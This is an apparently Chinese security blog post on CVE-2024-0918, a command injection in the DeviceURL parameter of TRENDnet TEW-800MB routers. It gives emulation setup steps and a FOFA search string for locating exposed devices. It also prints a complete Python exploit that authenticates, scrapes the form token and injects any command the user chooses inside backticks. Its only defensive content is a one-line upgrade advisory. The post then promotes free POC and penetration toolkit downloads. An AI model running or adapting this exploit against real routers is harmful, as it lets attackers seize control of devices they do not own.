 #  CVE-2024-0918   
原创 fgz  AI与网安   2024-02-17 09:33  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**福利：小编整理了往期POC以及大量电子书和护网常用工具，在文末免费获取。**  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
TRENDnet TEW-800MB POST 请求操作系统命令注入  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
TRENDnet TEW-800MB 1.0.1.0  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
固件版本为1.0.1.0的TEW-800MB路由器存在命令注入漏洞。如果攻击者获得了web管理权限，他们可以将命令注入到httpd未知函数中的post请求参数DeviceURL中，从而获得shell权限。该漏洞可以在本地Intranet上执行，如果启用了远程管理，则可以远程执行。  
  
  
**代码分析**  
  
在未知函数中，参数DeviceURL可以被用户控制，存在命令注入漏洞按照DeviceURL的值，发现system()函数调用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnAYb4461bxc7ibQ4d9PLJIkZHF7UdJD2f2Qy2SHrVUZT8h1rvD9scXHg/640?wx_fmt=png&from=appmsg "")  
  
  
环境设置:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnia0Nq2aPdvYcJ3U1bB7bBKKCciaBEBzoIk2hUffT8daUGIQYcxOHCvfw/640?wx_fmt=png&from=appmsg "")  
  
环境配置请参考如下链接  
```
https://github.com/pr0v3rbs/FirmAE
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnPvDomguIHktVzeH3CkSrsFwKib2wpnv4vTo7UsVj3Tf6zxX5ibyNeUmg/640?wx_fmt=png&from=appmsg "")  
  
  
最终搭建好是这个样子  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnhu8tHGx5UhnL5RT4OJicCHH7icMCxIKtaFguja0n0D1FGolnxyeMuRaQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"TRENDnet-TEW"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnl3zOoib2MEmYhFkibfQlMMictoZr9JCmO3uITvHWllEicV7lM63zEdXjicg/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
poc  
  
  
poc文件内容如下  
```
import requests
import base64 
import re

if __name__ == '__main__':
    print('start !!! ')

    target = input("Enter Target IP : ")
    username = input("Enter Username : ")
    password = input("Enter Password : ")
    cmd = input("Enter you want cmd : ")
    auth = username + ":" + password
    hash = base64.b64encode(auth.encode('utf-8')).decode('utf-8')
    s = requests.Session()

    headers = {
        'User-Agent': "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        'Accept-Language': "en-US,en;q=0.5",
        'Accept-Encoding': "gzip, deflate, br",
        'Authorization': f'Basic {hash}',
        'Connection': "close",
        'Cookie': "expandable=6c",
        'Upgrade-Insecure-Requests': "1"
    }
    response = s.request("GET", f'http://{target}/adm/management.asp', headers=headers)

    data = response.text

    token_pattern = r'name="token" value="([^"]+)"'
    token_match = re.search(token_pattern, data)
    if token_match:
        token_value = token_match.group(1)
    else:
        token_value = "Token not found"
        print(token_match)
        exit


    burp0_url = "http://" + target + "/uapply.cgi"
    burp0_headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Authorization': f'Basic {hash}',
        'Connection': 'close',
        'Cookie': 'expandable=6c',
        'Upgrade-Insecure-Requests': '1'
    }

    # Form data to be sent in POST request
    burp0_data = {
        'page': '/adm/management.asp',
        'token': f'{token_value}',
        'DeviceURL': f'tew-800mb`{cmd}`',
        'action': 'Apply',
        'apply_do': 'setDeviceURL',
    }
    s.post(burp0_url, headers=burp0_headers, data=burp0_data)

    print("end !!! ")
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnVrqOgAiaibAOj0dzWvmced6hWeribGia8J5oNMibZ7JyraVsjhppgxwbzQw/640?wx_fmt=png&from=appmsg "")  
  
  
命令注入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BP4ptoF3yMMJJEgK2Z24IDnzK4z2CtoJgQicu6ic9rgNuKYiaCC83rgs8aKFD3OIS6t3Xe1IbWcp2hiag/640?wx_fmt=png&from=appmsg "")  
  
  
06  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
07  
  
—  
  
福利领取  
  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
**后台发送【****电子书**  
**】关键字获取电子书**  
  
****  
**后台发送【POC】关键字获取POC**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  
  
